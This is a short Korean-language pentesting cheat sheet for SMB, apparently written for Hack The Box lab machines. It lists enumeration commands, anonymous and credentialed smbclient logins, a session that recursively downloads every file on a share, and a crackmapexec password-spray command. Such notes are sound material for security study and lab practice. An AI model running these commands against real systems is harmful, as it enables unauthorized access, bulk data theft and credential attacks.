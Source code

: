 # 139,445 - Pentesting SMB

<pre class="language-bash"><code class="lang-bash"><strong>enum4linux -a 10.10.10.100 #-a : 모든 정보 가져오기 
</strong>smbmap -H 10.10.10.100 
smbclient //10.10.10.100/Replication -U ""%""  #-U는 사용자 인증 정보 지정 옵션 (유저 아이디 같은 것) but 여기서는 빈문자열 ""%""을 사용하여 익명으로 접속
smbmap -H 10.10.10.100 -r #공유가능한 폴더 재귀적으로 나열 
crackmapexec smb support.htb #호스트 이름과 도메인 표시 
crackmapexec smb support.htb --shares #공유가능한 폴더 모두 표시 
smbclient -N -L //support.htb #-N : 인증 없이, -L : 호스트의 공유 목록 표시
smbclient --user r.thompson //10.10.10.182/data rY4n5eva #smb data 접속
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget * #이러면 각 공유에 있는 모든 파일 다운 가능
</code></pre>

```bash
// SMB 명령어 
get <파일명> #파일 다운 명령어 

```

### 비밀번호 스프레이&#x20;

* 많은 사용자들에게 하나의 비밀번호를 대입하는 것&#x20;

```bash
crackmapexec smb 10.10.10.169 -u users -p 'Welcome123!' --continue-on-success

```
